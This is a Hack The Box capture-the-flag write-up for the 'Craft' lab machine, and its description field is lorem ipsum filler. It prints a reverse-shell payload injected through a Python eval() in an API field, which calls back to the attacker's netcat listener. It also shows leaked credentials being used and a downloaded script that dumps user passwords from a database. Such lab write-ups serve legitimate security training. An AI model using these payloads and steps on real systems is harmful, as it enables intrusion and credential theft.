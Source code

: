 ```yaml
---
title: Craft - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-10-13
image: images/craft_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/craft_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. nmap -Pn -sC -sV -n 10.10.10.110
    22/tcp  open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
    443/tcp open  ssl/http nginx 1.15.8
    6022/tcp open x11

2. Access HTTPS and look around, notice that gogs.craft.htb and api.craft.htb is not reachable (icons in top right corner of the page).
   Add the URLs in /etc/hosts:
    10.10.10.110  gogs.craft.htb api.craft.htb

3. Look around on gogs.craft.htb and you can find a test script by Dinesh, containing his username and password (dinesh:4aUh0A8PbVJxgd)
    https://gogs.craft.htb/Craft/craft-api/commit/10e3ba4f0a09c778d7cec673f28d410b73455a86

    Using these credentials we can get a token from the API (https://api.craft.htb/api/) or using curl.
      API: https://api.craft.htb/api/

      CURL: curl -k -u dinesh:4aUh0A8PbVJxgd https://api.craft.htb/api/auth/login
        {"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcwNjA5ODM0fQ.WRjbAWd7WEpOhoL34hSlGmA92c2bCtYmboNKPG1Oie8"}

4. With the credentials and token, we now have a way to POST/PUT information onto the server, now we need to find a way to exploit this.
   Login as Dinesh on gogs.craft.htb, add your SSH-key and download the repository. Looking through the files we can find the Source Code for brew.py.
   Looking through brew.py we can find that they use a eval-function for input validation of 'abv', this makes it vulnerable for Code Injection.

   NOTE: You don't need to download the files, they can also be viewed directly on gogs.craft.htb, but I think it's easier to download

   # make sure the ABV value is sane.
   if eval('%s > 1' % request.json['abv']):
       return "ABV must be a decimal value less than 1.0", 400
   else:
       create_brew(request.json)
       return None, 201

5. Exploit the abv eval-function.
   Start netcat and send a POST through the API. Capture it in burp and edit the request by adding a valid token (created by Dinesh) and inject desired code in the abv-field.

      POST /api/brew/ HTTP/1.1
      Host: api.craft.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
      Accept: application/json
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: https://api.craft.htb/api/
      content-type: application/json
      origin: https://api.craft.htb
      Content-Length: 96
      Connection: close
      X-Craft-API-Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTcxMTMzMDkwfQ.m2NfNIDs-bqUcuqRzYXITIQ5lWXHtENnijqLiIcMgMQ

      {
        "id": 2352,
        "brewer": "string",
        "name": "string",
        "style": "string",
        "abv": "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4488 >/tmp/f')"
      }

      root@p3:/opt/htb/machines/craft# nc -lvnp 4488
        listening on [any] 4488 ...
        connect to [10.10.14.12] from (UNKNOWN) [10.10.10.110] 42163
        /bin/sh: can't access tty; job control turned off
        /opt/app #

6. At first glance you are user root, but you can't access any flags, seems like we are in a docker and need to break out.
   Looking through the scripts and .gitignore there are a lot of references to settings.py, looking in that file we find a db user and password. (craft:qLGockJ6G2J75O)
   The script dbtest.py calls settings.py to get information from the database brew. In craft_api/api/database/models.py we can find a second database, User.
   Download dbtest.py and edit to call user database. Notice that we also need to change result from cursor.fetchone() to cursor.fetchall() to get all info within the database.

   root@p3:/opt/htb/machines/craft/craft-api# cat exp-db.py
     #!/usr/bin/env python

     import pymysql
     from craft_api import settings

     # test connection to mysql database

     connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                                  user=settings.MYSQL_DATABASE_USER,
                                  password=settings.MYSQL_DATABASE_PASSWORD,
                                  db=settings.MYSQL_DATABASE_DB,
                                  cursorclass=pymysql.cursors.DictCursor)

     try:
         with connection.cursor() as cursor:
             sql = "SELECT `id`, `username`, `password` FROM `user`"
             cursor.execute(sql)
             result = cursor.fetchall()
             print(result)

     finally:
         connection.close()

  root@p3:/opt/htb/machines/craft/craft-api# python3 -m http.server 8888

  /opt/app # wget http://10.10.14.12:8888/exp-db.py
    Connecting to 10.10.14.12:8888 (10.10.14.12:8888)
    exp-db.py            100% |********************************|   664  0:00:00 ETA

  /opt/app # chmod +x exp-db.py
  /opt/app # python exp-db.py
    [{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

7. Gilfoyle reuses his credentials for gogs.craft.htb, login to his account and you'll find his public and private SSH-keys. Download the private key, give it chmod 600, and SSH with same creds again.

    root@p3:/opt/htb/machines/craft# ssh gilfoyle@10.10.10.110 -i id_rsa-gilf

      .   *   ..  . *  *
      *  * @()Ooc()*   o  .
      (Q@*0CG*O()  ___
      |\_________/|/ _ \
      |  |  |  |  | / | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | | | |
      |  |  |  |  | \_| |
      |  |  |  |  |\___/
      |\_|__|__|_/|
      \_________/

      Enter passphrase for key 'id_rsa-gilf':
      Linux craft.htb 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64

      The programs included with the Debian GNU/Linux system are free software;
      the exact distribution terms for each program are described in the
      individual files in /usr/share/doc/*/copyright.

      Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
      permitted by applicable law.
      Last login: Mon Oct 14 07:18:13 2019 from 10.10.14.21
    gilfoyle@craft:~$

8. Grab user-flag.
    gilfoyle@craft:~$ cat /home/gilfoyle/user.txt
      bbf4****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Login with Gilfoyle's creds on gogs.craft.htb, in the repo craft-infra you'll find a folder named vault and within it secrets.sh
    Vault is used to provide one-time passwords (OTP) for SSH login, I google'd 'vault ssh' and the first link I found explains how to request a OTP.
    https://learn.hashicorp.com/vault/secrets-management/sm-ssh-otp#step-3-request-an-otp

    In their example they write:
      vault write ssh/creds/otp_key_role ip=<REMOTE_HOST_IP>

    Trying this gives us an error: * Role "otp_key_role" not found
    Looking at secrets.sh we find that the 'vault write'-string ends with root_otp, lets try that instead:
      gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=10.10.10.110
      Key                Value
      ---                -----
      lease_id           ssh/creds/root_otp/bdbe45d6-24b0-6a02-8534-d37bbb3f54c5
      lease_duration     768h
      lease_renewable    false
      ip                 10.10.10.110
      key                1762e6a1-f975-61f8-814e-f7d65a2a1f51
      key_type           otp
      port               22
      username           root

    NOTE: The key value is the OTP to use during SSH authentication.

2. SSH with the OTP-creds generated and grab root.txt.
    root@p3:/opt/htb/machines/craft# ssh root@10.10.10.110
    root@craft:~# cat root.txt
      831d****************************
